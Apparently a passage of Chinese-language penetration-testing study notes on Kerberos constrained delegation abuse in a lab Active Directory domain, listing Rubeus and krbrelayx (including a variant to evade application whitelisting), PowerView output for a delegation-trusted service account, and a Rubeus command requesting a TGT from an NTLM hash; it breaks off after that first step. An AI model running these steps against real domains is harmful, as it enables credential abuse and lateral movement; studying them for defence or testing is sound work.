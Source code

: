 
工具
- Rubeus.dll: Rubeus.exe会被appwhitelist限制
https://github.com/rvrsh3ll/Rubeus-Rundll32
- krbrelayx: 可以直接在kali上进行攻击
https://github.com/dirkjanm/krbrelayx

## 16.2.3 Constrained Delegation

约束委派认证是在非约束委派的基础上添加了委派限制，即可以看到msds-allowedtodelegateto 
```powershell
PS C:\tools> Get-DomainUser -TrustedToAuth
logoncount : 7
badpasswordtime : 4/5/2020 6:02:06 AM
distinguishedname : CN=IISSvc,OU=prodUsers,DC=prod,DC=corp1,DC=com
objectclass : {top, person, organizationalPerson, user}
displayname : IISSvc
lastlogontimestamp : 4/5/2020 5:31:25 AM
userprincipalname : IISSvc@prod.corp1.com
name : IISSvc
objectsid : S-1-5-21-3776646582-2086779273-4091361643-1108
samaccountname : IISSvc
codepage : 0
samaccounttype : USER_OBJECT
accountexpires : NEVER
countrycode : 0
whenchanged : 4/6/2020 12:24:12 PM
instancetype : 4
usncreated : 24626
objectguid : d9eeb03e-b247-4f63-bfd7-eb2a8d132674
lastlogoff : 12/31/1600 4:00:00 PM
msds-allowedtodelegateto : {MSSQLSvc/CDC01.prod.corp1.com:SQLEXPRESS,
MSSQLSvc/cdc01.prod.corp1.com:1433}
objectcategory : CN=Person,CN=Schema,CN=Configuration,DC=corp1,DC=com
dscorepropagationdata : 1/1/1601 12:00:00 AM
serviceprincipalname : HTTP/web
givenname : IISSvc
lastlogon : 4/6/2020 5:21:18 AM
badpwdcount : 0
cn : IISSvc
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD,
TRUSTED_TO_AUTH_FOR_DELEGATION
```

S4U2Proxy 可以使用forwardable TGS 去向 允许资源

1. 生成TGT
```cmd
.\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com
/rc4:2892D26CDF84D7A70E2EB3B9F05C425E

...
[*] Action: Ask TGT
[*] Using rc4_hmac hash: 2892D26CDF84D7A70E2EB3B9F05C425E
[*] Building AS-REQ (w/ preauth) for: 'prod.corp1.com\iissvc'
[+] TGT request successful!
[*] base64(ticket.kirbi):
doIE+jCCBPagAwIBBaEDAgEWooIECzCCBAdhggQDMIID/6A...
ServiceName : krbtgt/prod.corp1.com
ServiceRealm : PROD.CORP1.COM
UserName : iissvc
UserRealm : PROD.CORP1.COM
StartTime : 4/14/2020 7:48:16 AM
EndTime : 4/14/2020 5:48:16 PM
RenewTill : 4/21/2020 7:48:16 AM
```